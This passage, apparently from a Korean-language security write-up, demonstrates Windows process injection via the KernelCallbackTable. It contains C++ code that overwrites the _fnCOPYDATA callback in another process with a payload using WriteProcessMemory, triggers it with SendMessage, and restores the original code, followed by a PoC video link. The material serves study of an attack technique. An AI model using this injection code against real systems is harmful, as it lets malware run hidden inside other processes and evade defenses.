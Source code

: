 삽입할 PAYLOAD를 _fnCOPYDATA() 코드 영역에 삽입한다.

```c++
if (WriteProcessMemory(hProcess, *(&pKernelCallbackFuncAddr), PAYLOAD, sizeof(PAYLOAD), NULL)) {
    printf("\t\t\t[*] Modifed The KernelCallBack Function\n");
}
else throw new exception("WriteProcessMemory()");
```

이제 SendMessage()를 Trigger로서 호출하면 코드가 실행된다.

```c++
printf("\t\t\t[*] Triger!!!\n");
WCHAR trigerMsg[] = L"t0rchwo0d";
cds.dwData = 1;
cds.cbData = lstrlen(trigerMsg);
cds.lpData = trigerMsg;
SendMessage(hWindow, WM_COPYDATA, (WPARAM)hWindow, (LPARAM)& cds);
```

마지막으로 원래의 코드로 복원하고 정상 복원 여부를 확인하기 위해서 SendMessage()를 한번더 호출하여 코드가 실행되지 않는 것을 확인한다.

```c++
if (WriteProcessMemory(hProcess, *(&pKernelCallbackFuncAddr), originCode, sizeof(PAYLOAD), NULL)) {
    printf("\t\t\t[*] Restroe Origin Code\n");
}
else throw new exception("WriteProcessMemory()");
SendMessage(hWindow, WM_COPYDATA, (WPARAM)hWindow, (LPARAM)& cds);
```

최종적으로 원하는 코드를 실행할 수 있도록 되었다. 현재는 외부에 존재하는 PAYLOAD를 사용하였으나 좀 더 공부하여 스스로 작성한 PAYLOAD를 삽입한다면 활용도가 높아질 것이라 생각한다. RV, RVA 등 고려하여 PAYLOAD를 작성해야하는 것으로 알고 있으나 다른 방법도 존재할 것이다. 추가로, 윈도우 핸들을 PID로 가져오도록 하는 로직과 Architecture 별로 구분하여 동작하도록 하면 좀 더 효율적으로 사용할 수 있을 것 같다.



## 0x03_PoC (YouTube)
[![Windows Process Injection Technique - KernelCallbackTable](http://img.youtube.com/vi/0Tfj243q0zA/0.jpg)](https://youtu.be/0Tfj243q0zA?t=0s) 

